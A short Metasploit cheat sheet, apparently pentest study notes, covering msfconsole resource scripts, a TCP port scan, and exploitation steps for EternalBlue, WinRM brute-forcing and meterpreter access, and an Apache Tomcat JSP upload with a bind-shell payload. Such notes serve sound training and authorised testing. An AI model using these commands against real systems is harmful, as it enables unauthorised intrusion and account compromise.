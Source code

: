 ```ruby
```
 - To use the script you can be like :-
```bash
msfconsole -r handler.rc

#You can also run the resource script from inside msf
resource /path/to/script/rc

# you can generate a resource script from inside msf with makerc which would collate previous commands and make it into a rc script 
makerc /path/to/save/script/rc
```
- Resource script for tcp portscanner
```ruby
use auxiliary/scanner/portscan/tcp
set RHOSTS $IP
run
```


## Exploitation (common exploits/vulns)
> HFS

 >MS17-010 SMB - Eternal Blue

> WINRM

```bash
search type:auxiliary winrm

# check for supported auth mehods
use winrm_auth_methods
use 

# bruteforce winrm
use winrm_login


# ineract
use winrm_cmd

# get a meterpreter session (set FORCE_VBS true)
use winrm_script_exec 

```

>Apache Tomcat (v8.5.19 any <v9 RCE) runs on 8080, hosts apps developed in java

```bash
# for windows
search type:exploit tomcat_jsp
use tomcat_jsp_upload
set payload java/jsp_shell_bind_tcp
set SHELL cmd
# might require you to run it multiple times.
# you would need to use msfvenom to upgrade the shell to meterpeter
```
